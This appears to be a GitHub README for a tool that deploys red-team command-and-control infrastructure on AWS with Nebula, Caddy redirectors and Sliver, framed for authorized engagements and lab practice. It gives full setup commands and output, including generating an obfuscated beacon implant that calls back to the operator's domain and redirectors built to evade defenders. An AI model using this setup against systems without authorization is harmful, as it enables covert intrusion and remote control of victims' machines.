



# TODO 
- Fix payload server
- Remove nebula from AWS groups.. does it still work?
- Clean up Caddy Files
- Add pre-configuration instructions
- Add note that this should not be used in prod - cloud teamserver
- Add reference links for rasta and co

# Streamline - Automated C2 Infrastructure Deployment

Streamline is an automated C2 deployment tool which creates a basic C2 infrastructure for use on Red Team engagements. It builds using free AWS resources and currently supports domain names purchased within Amazon's Route53. Communication between nodes is lightning fast, making use of Slack's [Nebula](https://github.com/slackhq/nebula) - A mesh overlay networking tool that provides mutually authenticated peer-to-peer connections. Nebula was allows operators to the cloud-based team server by simply joining the cluster. Traffic routes directly from node to node, without having to proxy through an intermediary VPN service. As long as each node can communicate with the "lighthouse", the traffic will discover its correct destination. 

The current setup comprises of 5 servers:
- Internal Teamserver
- Internal Payload Server
- External Teamserver Redirector
- External Payload Server Redirector
- The Lighthouse

Traffic from compromised machines, running beacons, will route via the redirectors based on a pre-determined file path and user-agent. This allows for the configuration of specific TTPs to emulate during a Red Team Engagement. Traffic that does not meet the pre-requisites gets redirected to a different location. This has multiple benefits:

- Hiding the location of the Red Team infrastructure from the pesky Blue Teamers
- Ensuring that non-engagement traffic doesn't reach the internal servers
- Resilience in the case of a redirector being blacklisted

The current setup provides operators with a reproducible, stable environment to base activities from. It also allows practitioners and students to use it as a free study resource when completing practice labs and playing CTFs.

Streamlined was built after reading the fantastic work over the last year by the following very smart people:

- Rastamouse
- HuskyHacks
- Red Team Infrastructure Wiki

The baseline template for the code is modelled off the fantastic blog post from d3d of malicious.group, which performed a similar setup using Cobalt Strike and Linode!

Check that out [here](https://blog.malicious.group/automating-c2-infrastructure-with-terraform-nebula-caddy-and-cobalt-strike/) if you are interested! 
## Design Overview

The following image depicts the design of the application when it is initiated.



## Pre-Configuration Steps
- AWS Setup with domain 
- Caddy setup 
- C2 malleable profile 

## Step-by-Step Installation and Operator Connection 

The following instructions depict how to set up the infrastructure and connect a single local operator. It is necessary to have AWS access keys configured in the CLI environment that the program is being run from. This is done to avoid hardcoding any sensitive data to files. However, one caveat is that it will exist in Terraform state files, so ensure not to push these publicly.

First, clone the repository.

```
┌──(kali㉿kali)-[/opt]
└─$ git clone https://github.com/heartburn-dev/Streamlined.git
```
Then, configure AWS with your access credentials.
```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ aws configure
AWS Access Key ID [****************RNPK]: ACCESSKEYID
AWS Secret Access Key [****************+/2y]: SECRETACCESSKEY+/2y
Default region name [eu-west-2]: eu-west-2
Default output format [None]:
```

We can now run the Terraform configuration script. It will take around 5-10 minutes to build the infrastructure. The first argument is the domain that you will have purchased and placed in Route53 (Support for Namecheap will be added at a later date), alongside the subdomain, which will host the payload server.

```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ python3 setup.py towerofterror.co.uk drop
[?] You are about to setup C2 infrastructure using the towerofterror.co.uk domain with the drop subdomain acting as a redirector, hit any key to continue!
```

After the build has completed, the IP addresses of the servers will be output. These should be stored, but are always accessible in the EC2 interface.

```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ python3 setup.py towerofterror.co.uk drop
========================
          SNIP
========================
Outputs:                                                              

lighthouse = "13.42.38.200"                                                                
payload-redirector = "13.41.73.201"
payloads = "13.42.11.103"
teamserver = "18.168.202.9"
teamserver-redirector = "18.130.89.113"

[*] Deployment complete! Run destroy.py to destroy the infrastructure.
```

At this point, DNS configurations should be checked to confirm they're working as expected within Route53. 


During the build process, SSH keys are generated in your current user's `.ssh` directory. The public keys have been transferred to the boxes to allow for management. At this point, it would be prudce to confirm that Nebula has been successfully configured on each box. I recommend SSHing into each, and pinging each of the machines in the Nebula network.

```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ ssh -i /home/kali/.ssh/towerofterror.co.uk  ubuntu@18.168.202.9

ubuntu@teamserver:~$ for i in $(seq 1 5); do ping -c 1 10.69.69.$i; done
--- 10.69.69.1 ping statistics ---
PING 10.69.69.1 (10.69.69.1) 56(84) bytes of data.
64 bytes from 10.69.69.1: icmp_seq=1 ttl=64 time=11.9 ms

--- 10.69.69.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
64 bytes from 10.69.69.2: icmp_seq=1 ttl=64 time=68.4 ms

--- 10.69.69.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
64 bytes from 10.69.69.3: icmp_seq=1 ttl=64 time=8.45 ms

--- 10.69.69.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
64 bytes from 10.69.69.4: icmp_seq=1 ttl=64 time=2.78 ms

--- 10.69.69.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
64 bytes from 10.69.69.5: icmp_seq=1 ttl=64 time=0.017 ms
```

All should be good to go now, provided they can communicate. The time taken will drastically reduce after the first few pings, as the network then learns how to optimize delivery between endpoint nodes. This has drastic speed increases compared to a traditional VPN configuration where traffic must proxy through a singular gateway.

```
ubuntu@payloads:~$ ping 10.69.69.2
PING 10.69.69.2 (10.69.69.2) 56(84) bytes of data.
64 bytes from 10.69.69.2: icmp_seq=1 ttl=64 time=3.87 ms -> First ping (snail)
64 bytes from 10.69.69.2: icmp_seq=2 ttl=64 time=0.917 ms -> Speed 
64 bytes from 10.69.69.2: icmp_seq=3 ttl=64 time=0.697 ms -> I AM SPEED!
```

The Nebula network allows built-in Firewall rules to manage access to the internal IP ranges. This gets defined during the setup process in the `src/templates/init.tf` and `src/configs/nebula/*.yaml.` files. The `init.tf` file specifies the required internal infrastructure IP addresses and the type of group you want it to belong to. An overview is given below, the naming conventions can be altered, it's just what I chose:

- Redirectors go in the "redirectors" group
- Internal servers go in the "critical" group
- Operator addresses go in the "operator" group

```
/tmp/nebula/nebula-cert sign -name "lighthouse" -ip "10.69.69.1/24"
/tmp/nebula/nebula-cert sign -name "teamserver-redirector" -ip "10.69.69.2/24" -groups "redirectors"
/tmp/nebula/nebula-cert sign -name "payload-redirector" -ip "10.69.69.3/24" -groups "redirectors"
/tmp/nebula/nebula-cert sign -name "payloads" -ip "10.69.69.4/24" -groups "critical"
/tmp/nebula/nebula-cert sign -name "teamserver" -ip "10.69.69.5/24" -groups "critical"
/tmp/nebula/nebula-cert sign -name "operator_1" -ip "10.69.69.100/24" -groups "operator"
/tmp/nebula/nebula-cert sign -name "operator_2" -ip "10.69.69.101/24" -groups "operator"
/tmp/nebula/nebula-cert sign -name "operator_3" -ip "10.69.69.102/24" -groups "operator"
/tmp/nebula/nebula-cert sign -name "operator_4" -ip "10.69.69.103/24" -groups "operator"
```
These are then built upon within the `*.yaml` files, by specifying what groups can access what via inbound and outbound traffic rules. Here is an example of the `critical.yaml` section, displaying inbound from the `redirector` and `operator` groups, as these are the ones that will need to connect to them. ICMP is included for debugging purposes and should be removed in production.

```
firewall:
  conntrack:
    tcp_timeout: 12m
    udp_timeout: 3m
    default_timeout: 10m

  outbound:
    - port: any
      proto: icmp
      host: any

    - port: any
      proto: any
      group: redirectors

    - port: any
      proto: any
      group: operator

  inbound:
    - port: any
      proto: icmp
      host: any

    - port: any
      proto: any
      group: redirectors
```

Now is also a good time to check that the redirectors work. The `src/templates/files` folder holds configurations for Caddy, HTTPS web server and reverse proxy being used in the project. At the bottom of these files, there is the following:

```
handle /* {
    redir https://www.youtube.com/watch?v=eGRmtOLcd_I permanent
}
```

This directive states that all traffic hitting the `/*` endpoint of the website should be redirected to this Youtube video. This should be edited before the tool is run, as stated in the "Pre-Configuration Steps" section. Let's confirm it's working with this setup now.



After confirming the redirector is working, you can make requests to the endpoint again in a proxy and add the user agent specified in the `src/templates/files/sliver-c2-profile` file, alongside any of the endpoints listed. The response should now go through Caddy to the internal server. 


Excellent.

It's now time to run a test beacon before wrapping up. SSH into the Teamserver and switch to the root user.

```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ ssh -i /home/kali/.ssh/towerofterror.co.uk  ubuntu@18.168.202.9
ubuntu@teamserver:~$ sudo su
root@teamserver:/home/ubuntu# id
uid=0(root) gid=0(root) groups=0(root)
```

During the build, Sliver is started as a service, so it's already running this can be confirmed by checking the listening connections - 31337 is the Teamserver default.

```
root@teamserver:/home/ubuntu# ss -antp
State          Recv-Q         Send-Q                 Local Address:Port
LISTEN         0              4096                               *:31337
```

Run the sliver server and generate an operator configuration file.

```
root@teamserver:/home/ubuntu# /root/sliver-server 

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███                                                                                                                                  
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒                                                                                                                                
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒                                                                                                                                
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄                                                                                                                                  
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒                                                                                                                                
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░                                                                                                                                
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░                                                                                                                                
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░                                                                                                                                 
                  ░      ░  ░ ░        ░     ░  ░   ░                                                                                                                                 
                                                                                                                                                                                      
All hackers gain miracle
[*] Server v1.5.33 - ce213edab44d33b2c232e0b8dc6c38f7fdabeee7
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver > new-operator --lhost 10.69.69.5 --name moana --save moana.cfg

[*] Generating new client certificate, please wait ... 
[*] Saved new client config to: /home/ubuntu/moana.cfg
```

This then needs to be transferred to the operator. The easiest way to do this is to download it via SCP. This is a ⚠ Configuration ⚠ file and should be treated as such - Careful how you distribute it. 

Note: You may have to `chown` it to SCP it over, as it'll be owned by root.

```
┌──(kali㉿kali)-[/opt/Streamlined]
└─$ scp -i /home/kali/.ssh/towerofterror.co.uk  ubuntu@18.168.202.9:/home/ubuntu/moana.cfg /tmp/moana.cfg
```

The operator also needs to download Nebula (no need if it's on the machine that the setup script is run from). 

```
mkdir /tmp/nebula 
wget https://github.com/slackhq/nebula/releases/download/v1.6.1/nebula-linux-amd64.tar.gz -O /tmp/nebula.tar.gz
tar -xvf /tmp/nebula.tar.gz -C /tmp/nebula
```

They will also need a copy of `src/templates/configs/nebula/operator.yaml` and the relevant certificates from the `src/templates/certificates/` folder: `ca.crt`, `operator.crt`, and `operator.key` - So transfer this to them if they are on a different machine to that which the setup script has run from. 

Ensure the path to the keys is correct in the configuration file and that the `LIGHTHOUSE_IP_ADDRESS` gets replaced with the public IP of the lighthouse box.

```
sed -i 's/LIGHTHOUSE_IP_ADDRESS/<your lighthouse IP>/g' operator.yaml
```

To recap, the operator needs:

- Sliver config file to connect to the Teamserver
- A copy of the `src/templates/configs/nebula/operator.yaml` file updated with the correct paths to keys and the lighthouse IP
- A copy of the `ca.crt`, `operator.crt`, and the `operator.key` files that are in `src/templates/certificates/*` folder 

When everything is place, it's time to join the nebula network!

```
┌──(kali㉿kali)-[/opt/Streamlined/src/templates/certificates]
└─$ sudo /tmp/nebula/nebula -config /opt/Streamlined/src/templates/configs/nebula/operator.yaml
```

Confirm that the operator is on the network by checking they have a Nebula IP.

```
┌──(kali㉿kali)-[/opt/Streamlined/src/templates]
└─$ ifconfig tun0   
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1300
inet 10.69.69.100  netmask 255.255.255.0  destination 10.69.69.100
```

And now import the Sliver configuration and connect to the Teamserver to complete the process.

```
┌──(kali㉿kali)-[/opt/Streamlined/src/templates]
└─$ sliver import /tmp/moana.cfg 
2023/02/02 16:49:56 Saved new client config to: /home/kali/.sliver-client/configs/moana_10.69.69.5.cfg

┌──(kali㉿kali)-[/opt/Streamlined/src/templates]
└─$ sliver
? Select a server:  [Use arrows to move, enter to select, type to filter]
> moana@10.69.69.5 (e2a2dafd0e619287)

Connecting to 10.69.69.5:31337 ...

.------..------..------..------..------..------.                                                                                                                                      
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |                                                                                                                                      
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |                                                                                                                                      
| :\/: || (__) || :\/: || ()() || :\/: || ()() |                                                                                                                                      
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|                                                                                                                                      
`------'`------'`------'`------'`------'`------'                                                                                                                                      
                                                                                                                                                                                      
All hackers gain hexproof
[*] Server v1.5.33 - ce213edab44d33b2c232e0b8dc6c38f7fdabeee7
[*] Client v1.5.29 - 32e4ed63e98ada7ca4283e64d1fb0b7ee60322fc
[*] Welcome to the sliver shell, please type 'help' for options
```

The operator is now connected. This can be repeated for any other operators by generating them configurations and giving them the necessary Nebula files. 

Let's quickly demonstrate getting a beacon through the redirector. First, start a HTTPS and then generate a beacon. It must point to the domain name of the external redirector, as this will then get tunnelled through.

```
sliver > https
[*] Starting HTTPS :443 listener ...
[*] Successfully started job #1

sliver > generate beacon --http towerofterror.co.uk
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:02:55
[*] Implant saved to /opt/Streamlined/src/templates/DRY_VIRGINAL.exe
```

And executing it on our unassuming victim...



Incroyable!! Then to destroy our infrastructure when we're done playing, simply run:

```
python3 destroy.py <domain> <subdomain>
```


## Opsec Considerations
Teamserver in cloud
Same key for each box at the moment - can be viewed as a positive or negative?